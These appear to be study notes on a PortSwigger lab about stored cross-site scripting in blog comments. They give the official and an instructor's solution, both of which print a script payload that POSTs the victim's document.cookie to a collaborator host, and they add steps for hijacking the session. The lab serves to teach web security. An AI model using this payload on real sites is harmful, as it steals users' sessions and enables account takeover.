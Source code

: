 # Lab: Exploiting cross-site scripting to steal cookies

PRACTITIONER

This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

#### Note

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

Some users will notice that there is an alternative solution to this lab that does not require Burp Collaborator. However, it is far less subtle than exfiltrating the cookie.

Port Swigger solution:

1. Using Burp Suite Professional, go to the [Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
    

    ```javascript
<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', 
	{ method: 'POST', 
	mode: 'no-cors', 
	body:document.cookie 
	}); 
</script> 
    ```

    
    This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.
    
4. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's cookie in the POST body.
6. Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to `/my-account` to load the admin user's account page


#### Alternative solution

Alternatively, you could adapt the attack to make the victim post their session cookie within a blog comment by [exploiting the XSS to perform CSRF](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf). However, this is far less subtle because it exposes the cookie publicly, and also discloses evidence that the attack was performed.


Instructor solution:
Go to the web application, we can see its a blog site, and we can view a blog post and we can see that we can leave comments. The instructor leaves a comment with a simple <script>alert(1)</script> to confirm XSS. He then goes ahead and types this payload

```javascript
<script> fetch('https://BURP-COLLABORATOR-SUBDOMAIN', 
	{ method: 'POST', 
	mode: 'no-cors', 
	body:document.cookie 
	}); 
</script> 
```

from here, he explains the payload

He then goes to Burp Suite, goes to Collaborator, clicks copy to clipboard, pastes the url to the address section of the payload, clicks Poll now, and then we can go to back to collaborator and we see that we get requests coming in.

we observe the request and we get two things, a secrets and a session cookie.

We grab the session cookie, go back to the login portion of the web application

when we are at /login

we open our browser console, we go to Application tab, we go to the cookies section on the left side, and we enter the session cookie we got from the xss payload.

We then change the url from /login to /my-account

and we complete the lab